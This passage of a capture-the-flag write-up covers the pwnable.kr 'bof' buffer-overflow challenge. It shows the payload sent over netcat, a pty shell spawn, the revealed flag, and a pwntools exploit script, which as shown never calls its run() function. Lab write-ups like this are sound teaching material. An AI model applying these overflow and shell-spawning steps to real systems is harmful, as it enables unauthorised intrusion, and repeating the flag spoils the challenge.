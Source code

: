 ```
┌──(kali㉿kali)-[~/pwnable.kr/bof]
└─$ (cat payload && cat) | nc pwnable.kr 9000
```

Once we press `ENTER` nothing will happen but in reality we have actually hacked the program and the shell has been opened. To confirm this we use, within the same terminal, the following command:

```
┌──(kali㉿kali)-[~/pwnable.kr/bof]
└─$ (cat payload && cat) | nc pwnable.kr 9000
python -c "import pty; pty.spawn('/bin/bash')"
bof@pwnable:~$
```

thanks to the command `python -c "import pty; pty.spawn('/bin/bash')"` we are able to show `bof@pwnable:~$` which is nothing other than the shell that is running. Therefore using the `ls` command we get:

```
bof@pwnable:~$ ls  
bof  bof.c  flag  log  super.pl
```

and finally we display the contents of the `flag` file:

```
bof@pwnable:~$ cat flag
daddy, I just pwned a buFFer :)
```

Perfect, everything went according to plan! So as you can imagine the flag you are looking for is the following sentence:

```
daddy, I just pwned a buFFer :)
```

## Exploitation

Finally, we can use the following exploit, written in `Python`, to replicate the vulnerability in a fully automated way:

```python
from pwn import *
import argparse

def run():
    hex = 0xcafebabe
    offset = 52 # calculated by Assembly code
    payload = b"X" * offset + p32(hex)

    shell = remote("pwnable.kr", 9000)
    shell.send(payload)

    if args.interactive:
        shell.interactive()
    else:
        for _ in range(2):
            shell.sendline(b"cat flag")
            flag = shell.recv(timeout=1).decode().strip()
        log.success(f"Flag: \"{flag}\"")

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-i", "--interactive", dest="interactive", action="store_true", required=False, help="Use an interactive shell.")

    args = parser.parse_args()
    # print(args)
```